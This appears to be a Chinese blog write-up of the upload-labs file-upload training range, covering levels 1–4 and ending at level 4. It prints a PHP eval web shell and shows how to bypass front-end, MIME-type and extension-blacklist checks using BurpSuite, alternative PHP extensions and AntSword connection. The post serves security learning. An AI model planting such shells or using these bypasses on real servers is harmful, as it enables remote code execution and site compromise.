+++
date = '2026-04-19T13:04:50Z'
draft = false
title = 'Upload Labs通关'
categories = ["挑战记录"]
tags = ["upload-labs", "文件上传", "web靶场"]
+++

# 第1关
1.创建文件shell.php，写入一下内容：
```php
<?php

#一句话木马
@eval($_POST['cmd']);

#显示php环境信息，便于观察shell.php是否上传成功且被成功执行
phpinfo();

?>
```
2.上传shell.php文件

上传失败，.php文件无法上传。



打开BurpSuite抓包，上传文件发现页面依旧弹窗提示上传失败，但是BurpSuite没有抓到包，说明对文件类型的判断是在前端进行的，数据包并没有传送到服务端。




3.关闭前端校验（方法一）

关闭浏览器JavaScript功能（以chrome为例）

设置-隐私设置和安全性-网站设置-javaScript-不允许网站使用JavaScript







4.上传shell.php并访问

关闭JavaScript功能后刷新页面，上传shell.php文件。

文件上传成功后在图片区域点击鼠标右键，复制图片地址，打开新的标签页访问图片。





可以看到php的环境配置，说明shell.php文件已经上传成功并且已被执行。

5.BurpSuite抓包改后缀（方法二）

将shell.php改成shell.jpg，上传shell.jpg,BurpSuite抓包修改后缀为shell.php。



放行数据包后，可以看到文件上传成功，接步骤4。

6.中国蚁剑连接

填写shell.php访问链接和连接密码。





# 第2关

1.分析核心源代码

```php
if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
    if (move_uploaded_file($temp_file, $img_path)) {
         $is_upload = true;
    } else {
         $msg = '上传出错！';
    }
} else {
    $msg = '文件类型不正确，请重新上传！';
}
```

由if判断条件可知，上传文件的类型必须为image/jpeg、image/png、image/gif这三种类型。

2.BurpSuite抓包

改文件类型，放行数据包，前端页面可见文件上传成功。



3.蚁剑连接

常规操作不再赘述。

# 第3关

1.分析核心源代码

```php
$deny_ext = array('.asp','.aspx','.php','.jsp');
```
$deny_ext定义了黑名单，'.asp','.aspx','.php','.jsp'后缀会被过滤掉。

2.更换shell.php文件的后缀

将php文件的后缀更换成以下任一后缀，或者使用大小写绕过。

```text
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phtm
.phtml
.phar
```
3.更换后缀后上传，然后蚁剑连接

# 第4关

1.分析核心源代码

```php
$deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
```
这里使用黑名单过滤了所有php、jsp、asp可执行文件的后缀，通过后缀名绕过不可行。但是忽略了.htaccess后缀的文件。

